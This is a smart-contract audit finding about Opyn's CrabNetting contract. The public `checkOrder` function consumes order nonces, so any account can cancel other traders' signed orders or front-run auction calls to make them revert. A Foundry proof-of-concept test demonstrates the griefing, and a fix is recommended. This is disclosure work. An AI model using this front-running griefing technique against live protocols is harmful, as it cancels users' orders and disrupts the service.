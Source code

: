 adriro

high

# `checkOrder` function can be used by a griefer to invalidate an order or cause a DoS by frontrunning the auction calls

## Summary

The `checkOrder` function can be used by an attacker or griefer to invalidate an order by consuming its nonce. It can also be used to cause a potential DoS by frontrunning the auction calls (`depositAuction` or `withdrawAuction`) and invalidating at least one of the orders present in the calldata.

## Vulnerability Detail

The function `checkOrder` present in the `CrabNetting` contract calls the internal function `_checkOrder`, which ends up calling the function `_useNonce` that will check if the nonce is still valid and "consume" it by marking it as used:

https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L447

```solidity
function checkOrder(Order memory _order) external {
    return _checkOrder(_order);
}
```

https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L455

```solidity
function _checkOrder(Order memory _order) internal {
    _useNonce(_order.trader, _order.nonce);
    ...
```

https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L756

```solidity
function _useNonce(address _trader, uint256 _nonce) internal {
    require(!nonces[_trader][_nonce], "Nonce already used");
    nonces[_trader][_nonce] = true;
}
```

Since the `checkOrder` function is an external unprotected function, it can be used by an attacker to invalidate the order of any trader.

## Impact

In the simplest case, this issue can accidentally cause an order to be invalidated by anyone who calls the `checkOrder` to check for the validity of the order params.

In a more elaborated scenario, a griefer can use this function to invalidate any (valid) order of any trader account by simply submitting the order payload to this function. 

It can also be used to cause a DoS in the protocol, since an attacker can frontrun the transactions to the auction functions (`depositAuction` or `withdrawAuction`) and invalidate any of the orders present in the calldata using the `checkOrder` function, causing the transaction to be reverted.

## Code Snippet

The following test reproduces the issue. Here, the `mm1` account signs an order which is then invalidated by the `attacker` account which holds no relation to the `mm1` account or any privileged access to the protocol.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {BaseForkSetup} from "./BaseForkSetup.t.sol";
import {SigUtils} from "./utils/SigUtils.sol";
import {Order} from "../src/CrabNetting.sol";

contract AuditTest is BaseForkSetup {
    SigUtils sig;

    function setUp() public override {
        BaseForkSetup.setUp();
        sig = new SigUtils(netting.DOMAIN_SEPARATOR());
    }
    
    function test_CrabNetting_checkOrder_InvalidateNonceGriefing() public {
        uint256 nonce = 5;

        // nonce is not used
        assertEq(netting.nonces(mm1, nonce), false);

        Order memory order = Order(
            0, // uint256 bidId;
            mm1, // address trader;
            1e18, // uint256 quantity;
            100e18, // uint256 price;
            false, // bool isBuying;
            block.timestamp + 1 days, // uint256 expiry;
            nonce, // uint256 nonce;
            1, // uint8 v;
            0x00, // bytes32 r;
            0x00 // bytes32 s;
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(mm1Pk, sig.getTypedDataHash(order));
        order.v = v;
        order.r = r;
        order.s = s;

        // attacker uses checkOrder to invalidate the nonce
        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        netting.checkOrder(order);

        // Now the nonce has been used and the order won't be valid anymore
        assertEq(netting.nonces(mm1, nonce), true);

        // checking the order again will fail too
        vm.expectRevert("Nonce already used");
        netting.checkOrder(order);
    }
}
```

## Tool used

Manual Review

## Recommendation

It seems the intention of this function is to provide an utility method to publicly verify an order. If so, the recommendation is to:

1. Decouple the order checking from the nonce consumption. `_checkOrder` can just verify that the nonce is not used (`require(!nonces[_trader][_nonce], "Nonce already used");`). The auction functions (`depositAuction` and `withdrawAuction`) can still call `useNonce` to properly consume the nonce of each order.
2. Remove the mutability of the `checkOrder` function by marking it as `view`. 